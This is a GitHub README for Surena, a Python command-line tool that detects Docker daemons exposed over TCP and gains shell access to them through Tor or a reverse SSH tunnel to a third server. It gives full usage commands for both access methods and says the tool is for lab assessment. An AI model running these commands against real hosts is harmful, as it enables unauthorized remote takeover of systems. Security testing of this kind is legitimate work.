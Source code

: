 # Surena

Surena is a tool developed to assess vulnerabilities in Docker daemons when their ports are exposed to a TCP network. It is developed using Click, a Python CLI library, and the Docker SDK for Python. Surena demonstrates how a hacker can gain shell access from an insecure Docker host using two methods: Tor Network and SSH Reverse Tunneling.

To explain how Surena works and how to use these methods, we have written an article on Medium that you can read by following this link: Medium Article.

## Installation

You can install Surena from PyPI by running the following command:

```bash
pip install surena
```

Once installed, you can run Surena using the following commands in your terminal. To view the available commands and options, you can run following command:

```bash
surena --help
```

Surena has two command those are "is-docker-host" and "get-docker-host".

### is-docker-host command
"is-docker-host" command is used for checking the Docker daemon's port is accessible from the network or not. for understanding its options you can run like following command:
```bash
poetry run surena is-docker-host --help
```
for instance you can run this command with below options:
```bash
poetry run surena is-docker-host --docker-host-address $DOCKER_HOST_IP --docker-host-port $DOCKER_HOST_PORT
```

### get-docker-host command
"get-docker-host" command is used for gain shell access from docker daemon with using two method. for understanding its options you can run like following command:

```bash
surena get-docker-host --help
```

for instance for gain shell access by usinf Tor Network method,you can run this command with below options:

```bash
surena get-docker-host --docker-host-address $DOCKER_HOST_IP --docker-host-port $DOCKER_HOST_PORT --access-method tor
```

for instance for gain shell access by using Reverse SSH Tunneling method, you can run this command with below options:

```bash
surena get-docker-host --docker-host-address $DOCKER_HOST_IP --docker-host-port $DOCKER_HOST_PORT --access-method reverse-ssh --ssh-server-address $THIRD_SERVER_IP --ssh-server-username $THIRD_SERVER_USERNAME --ssh-server-password $THIRD_SERVER_PASSWORD --ssh-server-port $THIRD_SERVER_SSH_PORT
```

Please note: Surena is intended for lab use and for understanding whether your Docker daemon is secure or insecure. DO NOT USE SURENA FOR MALICIOUS ACTIVITIES.
